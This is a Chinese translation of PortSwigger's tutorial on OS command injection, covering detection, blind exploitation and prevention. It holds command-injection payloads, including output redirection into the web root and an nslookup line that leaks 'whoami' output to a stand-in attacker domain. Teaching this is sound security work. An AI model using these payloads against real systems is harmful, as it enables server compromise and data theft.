 ```yaml
---
description: 原文链接：https://portswigger.net/web-security/os-command-injection
---
```


# OS命令注入

## 什么是OS命令注入？

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用漏洞，阐述一些针对不同操作系统的有用命令和技术，并总结如何防止操作系统命令注入。

![](../.gitbook/assets/image%20\(5\)%20\(3\)%20\(3\)%20\(3\)%20\(4\).png)

操作系统命令注入（也称为 shell 注入）是一个 web 安全漏洞，它允许攻击者可以在运行应用程序的服务器上执行任意操作系统（OS）命令，并且通常会完全破坏该应用程序及其所有数据。很多时候，攻击者可以利用 OS 命令注入漏洞来破坏托管基础结构的其他部分，利用信任关系将攻击转移到组织内的其他系统。

{% embed url="https://www.youtube.com/watch?v=8PDDjCW5XWw" %}

## 执行任意命令

考虑一个购物应用程序，让用户可以查看某件商品在特定商店中是否有库存。 这一信息是通过一个URL访问的：

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用产品和存储的ID作为参数调用 shell 命令来实现的：

```
stockreport.pl 381 29
```

此命令输出指定物品的库存状态，并返回给用户。

由于该应用程序没有实现对操作系统命令注入的防御，攻击者可以提交以下输入来执行一个任意命令：

```
& echo aiwefwlguh &
```

如果这个输入是在`productID`参数中提交的，那么应用程序执行的命令是：

```
stockreport.pl & echo aiwefwlguh & 29
```

`echo`命令只是使提供的字符串在输出中回显，它是测试某些类型的 OS 命令注入的有用方法。 `&`字符是 shell 命令分隔符，因此执行的实际上是一个接一个的三个独立命令。 因此，返回给用户的输出为：

```
Error - productID was not provided
aiwefwlguh
29: command not found
```

输出的三行表明：

* 原始的`stockreport.pl`命令在没有预期参数的情况下执行，因此返回了一个错误消息。
* 注入的`echo`命令被执行，并且提供的字符串在输出中回显。
* 原先的参数`29`被作为命令执行，这导致了一个错误。

将额外的命令分隔符`&`放在注入的命令之后通常是很有用的，因为它将注入命令与注入点后面的内容分开。 这就减少了后面的阻止注入命令执行操作的可能性。

> 实验：[OS 命令注入，简单案例](https://portswigger.net/web-security/os-command-injection/lab-simple)

## 有用的命令

当你确定了一个 OS 命令注入漏洞后，执行一些初始命令以获得被你入侵的系统的信息通常是有用的。 以下是在 Linux 和 Windows 平台上有用的一些命令摘要：

| 命令的用途 | Linux         | Windows         |
| ----- | ------------- | --------------- |
| 当前用户名 | `whoami`      | `whoami`        |
| 操作系统  | `uname -a`    | `ver`           |
| 网络配置  | `ifconfig`    | `ipconfig /all` |
| 网络连接  | `netstat -an` | `netstat -an`   |
| 运行的进程 | `ps -ef`      | `tasklist`      |

## 操作系统命令盲注漏洞

OS 命令注入的许多例子都是盲注漏洞。 这意味着应用程序不会在其 HTTP 响应中返回命令的输出。 盲注漏洞仍然可以被利用，但是需要不同的技术。

考虑一个网站允许用户提交有关该站点的反馈。 用户输入他们的电子邮件地址和反馈消息。 然后，服务器端应用程序生成一封包含反馈的电子邮件发到网站管理员。 为此，它要把提交的详细信息调用给邮件程序。 例如：

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

`mail`命令的输出（如果有）不会在应用程序的响应中返回，因此使用`echo` payload 将无效。 在这种情况下，你可以使用多种其他技术来检测和利用漏洞。

### 使用时间延迟检测OS命令盲注

你可以使用一个注入命令来触发一个时间延迟，从而让你根据应用程序响应的时间来确认命令是否被执行。 `ping`命令是执行此操作的有效方法，因为它可以让你指定要发送的 ICMP 数据包的数量，从而指定命令运行所花费的时间：

```
& ping -c 10 127.0.0.1 &
```

此命令将导致应用程序`ping`其环回网络适配器10次。

> 实验：[带时间延迟的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

### 通过重定向输出来利用OS命令盲注

你可以将注入命令的输出重定向到 web 根目录下的一个文件中，然后就可以用浏览器进行取回。 例如，如果应用程序从`/var/www/static`位置提供静态资源，那么可以提交以下输入：

```
& whoami > /var/www/static/whoami.txt &
```

`>`字符将`whoami`命令的输出发送到指定文件中。 然后，你可以使用浏览器获取`https://vulnerable-website.com/whoami.txt`来获取文件，并查看注入命令的输出。

> 实验：[带重定向输出的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

### 使用带外（OAST）技术利用盲OS命令注入

你可以使用一个注入的命令，通过 OAST 技术触发与你控制的系统的带外网络交互。 例如：

```
& nslookup kgji2ohoyw.web-attacker.com &
```

此 payload 使用`nslookup`命令对指定域进行 DNS 查找。 攻击者可以监视到是否发生了指定的查找，从而检测命令已成功注入。

> 实验：[带外交互的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

带外还提供了一种简单的方法来从注入的命令中提取输出：

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对攻击者的域名进行 DNS 查找，其中包含`whoami`命令的结果。

```
wwwuser.kgji2ohoyw.web-attacker.com
```

> 实验：带外数据渗出的 OS 命令盲注

## 注入 OS 命令的方式

可以使用各种 shell 元字符来执行 OS 命令注入攻击。

一些字符可以作为命令的分隔符，使命令可以被链接起来。 以下命令分隔符在 Windows 和基于 Unix 的系统中均可使用：

* `&`
* `&&`
* `|`
* `||`

以下命令分隔符仅在基于 Unix 的系统中工作：

* `;`
* `0x0a` or&#x20;

在基于 Unix 的系统中，你还可以使用反引号或 dollar 字符，在原始命令内对注入的命令内联执行：

* `注入的命令`
* `$(` 注入的命令 `)`

请注意，不同的 shell 元字符具有细微的不同行为，这可能会影响它们在某些情况下是否起作用，以及它们是否允许带内检索命令输出或仅用于盲注利用。

有时，你控制的输入会出现在原始命令的引号内。 这种情况下，在使用合适的 shell 元字符注入新命令之前，需要终止带引号的上下文(使用`"`或`'`)。

## 如何防止OS命令注入攻击

到目前为止，防止 OS 命令注入漏洞最有效的方法是，永远不要从应用程序层代码中调用 OS 命令。 几乎在每种情况下，都有使用更安全的平台 API 来实现所需功能的替代方法。

如果认为无法避免使用用户提供的输入来调用 OS 命令，则必须进行强输入验证。一些有效验证的例子包括：

* 根据允许值的白名单进行验证。
* 验证输入是否为数字。
* 验证输入仅包含字母数字字符，不包含其他语法或空格。

不要试图通过转义 shell 元字符来清理输入。 实际中，这太容易出错，而且容易被熟练的攻击者绕过。

> 阅读更多
>
> [使用 Burp Suite 的 Web 漏洞扫描器找到 OS 命令注入漏洞](https://portswigger.net/burp/vulnerability-scanner)
